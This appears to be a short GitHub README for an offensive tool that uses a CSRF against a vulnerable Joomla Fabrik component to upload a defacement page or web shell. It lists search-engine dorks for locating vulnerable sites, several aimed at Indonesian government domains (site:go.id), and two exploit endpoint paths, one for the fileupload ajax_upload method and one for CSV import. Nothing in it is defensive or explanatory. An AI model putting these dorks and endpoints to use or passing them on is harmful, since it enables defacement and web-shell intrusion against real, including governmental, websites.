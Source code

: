 # CSRF-Comfabrik-vuln-uploader.

---

Simple CSRF to upload deface or shell to Comfabrik vuln.

---

Dork: inurl:index.php?option=com_fabrik
Dork: inurl:index.php/component/fabrik/ site:go.id
Dork: inurl:index.php?option=com_fabrik&view= site:go.id
Dork: inurl:index.php?option=com_fabrik

---

Exploit: /index.php?option=com_fabrik&format=raw&task=plugin.pluginAjax&plugin=fileupload&method=ajax_upload
Exploit: /index.php?option=com_fabrik&c=import&view=import&filetype=csv&table=1
